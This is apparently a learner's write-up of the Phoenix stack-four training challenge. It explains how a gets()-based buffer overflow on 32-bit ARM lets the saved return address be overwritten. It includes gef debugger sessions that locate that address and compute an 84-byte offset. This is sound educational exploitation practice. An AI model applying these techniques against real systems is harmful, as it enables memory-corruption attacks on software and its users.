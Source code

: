# Phoenix Stack4
## Static Analysis
##### Analyse the binary
`r2 -A stack-four`
##### Result
`Congratulations, you've finished phoenix/stack-four :-) Well done!`
##### Learning
Reading the `registers` when the app crashed [ with a `segmentation fault` ] revealed clues.  To get the crash you passed in a large string that caused the `buffer overflow`.  The overflow was possible as the app used the C `gets` API to gather user input.

I used the clues from the crash to place a breakpoint that showed how the `Function Pointer ($fp)` could be overwritten to alter the `Code path`.  The `$fp` was named the `r11` register on ARM 32 bit device.

After finding the answer I found better answers to the challenge.  This one https://blog.lamarranet.com/index.php/exploit-education-phoenix-stack-four-solution/ is excellent.  

He has two alternative commands to find the `return address`.
```
Create a large string of AAABBBCCCs
Place the breakpoint on the seg fault
gef> p/x $sp
$1 = 0xfffefd20

gef> x/24x $sp
0xfffefd20:	0xfffefd5f	0x41414141	0x41414141	0x42424241
0xfffefd30:	0x42424242	0x42424242	0x43424242	0x43434343
0xfffefd40:	0x43434343	0x43434343	0x00004343	0x00000000
0xfffefd50:	0x0001059c	0xf7799894	0xf77eee40	0x0a00000a
0xfffefd60:	0xf77eee40	0x000105bc	0xfffefdbc	0xfffefdbc
0xfffefd70:	0xfffefd84	0x000105bc	0xfffefdb4	0x00000001

gef> find $sp, +96,0x000105bc
0xfffefd64
0xfffefd74

gef> p/x $fp
$2 = 0xfffefd74
```
Then you could find out the bytes in the Stack you needed to overwrite.
```
gef> x/24x $sp
0xfffefd20:	0xfffefd5f	0x00414141	0x00000000	0xf77eee40
0xfffefd30:	0x00010640	0x00000000	0x00000036	0x00000000
0xfffefd40:	0x00000000	0xf7799c04	0x00500018	0x00000000
0xfffefd50:	0x0001059c	0xf7799894	0xf77eee40	0x0a00000a
0xfffefd60:	0xf77eee40	0x000105bc	0xfffefdbc	0xfffefdbc
0xfffefd70:	0xfffefd84	0x000105bc	0xfffefdb4	0x00000001
gef> find $sp, +96,0x000105bc
0xfffefd64
0xfffefd74
2 patterns found.
gef> p/x $fp
$5 = 0xfffefd74

gef> p 0xfffefd74 - 0xfffefd20
$6 = 0x54

gef> p/u 0x54
$8 = 84
```